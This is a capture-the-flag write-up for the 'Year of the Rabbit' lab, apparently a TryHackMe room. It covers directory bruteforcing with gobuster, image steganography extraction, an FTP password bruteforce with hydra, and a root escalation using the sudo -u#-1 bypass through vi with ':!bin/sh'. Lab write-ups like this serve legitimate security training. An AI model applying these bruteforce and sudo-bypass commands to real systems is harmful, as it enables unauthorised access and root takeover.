


---

title: "Year of the Rabbit"

---

<center>
<strong>1. 🔍 Enumeration Part + Directory Bruteforcing</strong><br> 
<strong>2. ☠️ Exploitation Part</strong><br>
<strong>3. 🔓 Privilege Escalation Part</strong>
</center>

---


<h2><span style="color:red">1. 🔍 Enumeration Part + Directory Bruteforcing</span></h2><br>


We start with an Nmap scan:<br>
<center>
 
</center><br><br>


Next, we perform directory bruteforcing using Gobuster:<br>
```bash
gobuster dir -u http://10.10.218.46/ -w=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
<center>

</center><br><br>


The scan reveals an /assets directory. Let's explore it further:<br>
```bash
gobuster dir -u http://10.10.136.217/asset/ -w=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php
```

<center>

</center><br><br>


We check the "style.css" file, let's see what's hidden there:<br>
<center>

</center><br><br>


Hint tells us to go and check "/sup3r_s3cr3t_fl4g.php":<br>
<center>

</center><br>


Here you can notice some redirection moves and the browser tells us to turn off javascript:<br>
<center>

</center><br><br>


To turn JS off for Firefox browser just follow my guide:<br>
<center>
<br><br>
<br>
</center><br>
Done<br>

Finally we can open the page, as we already noticed page has no more .php extension<br>
<br>
<center>

</center><br><br>


YOU HAVE TO WATCH THE VIDEO :))) it will give you the hint for future steps:<br><br>


We can notice weird burp sound from the guy in the video<br>
which says go to the BURPSUITE)), and also<br>
notice some reddirect moves when we open our .php file<br>
let's check it with BURPSUITE:<br>


<br>
 
<br>
We found a new directory, open it:<br>
<center>

</center><br><br>


<h2><span style="color:red"><strong>2. ☠️ Exploitation Part</strong></span></h2><br><br>


We found one picture where says Hot_babe xD<br> 
Let's get that image and dig further:<br>

<br><br>


With the comand
```bash
binwalk -e Hot_babe.png
```
extracting some info :<br>

<br>

<br>

<br><br><br>


With command strings extracting all metadata from the file:
```bash
strings 
```
<br>
Here we have a message of possible correct password:<br>
<br><br>

Use hydra to bruteforce this passwords for FTP using:<br>
<center>
<br>
</center><br>

Connect to the FTP server and get file Eli's_Creds.txt:<br>
<center>
<br>
</center><br>

Trying to gues what it can be:
<center>

</center><br>


Eli's_Creds.txt shows us some symbols, simple GPT short message will tell us what are we dealing with:<br>
<center>


</center><br>

Finding online tool for decode and get our new creds<br>

<br><br>


Lets ssh to the system:<br>
<center>

</center><br>

And check the message:<br>
<center>

</center><br><br>


<h2><span style="color:red">3. 🔓 Privilege Escalation Part</span></h2><br>


We found creds of Login as a gwendoline<br> 
<center>

</center><br>


Use
```bash
sudo -V
```
```bash
sudo -l
```
commands to check possibility for privesc:<br>
<center>
<br>

</center><br><br>

NOTE: sudo -l give us (ALL, !root)NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt<br>
It means that vi can be used to make changes as a root user to the user.txt file<br><br>

 
Ok, lets dig what technik we can use with that sudo version:<br>

<br><br>


NOTE: We have the same example on the image but different command which we can run (in our case it's /usr/bin/vi /home/gwendoline/user.txt)
So what we must do: 
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
<br>
Once file opened and below when we save it and giving a name, we write:
```bash
:!bin/sh
```
<br>

<br><br>

 
<center>

</center><br><br>


<center>
We are root!
</center>
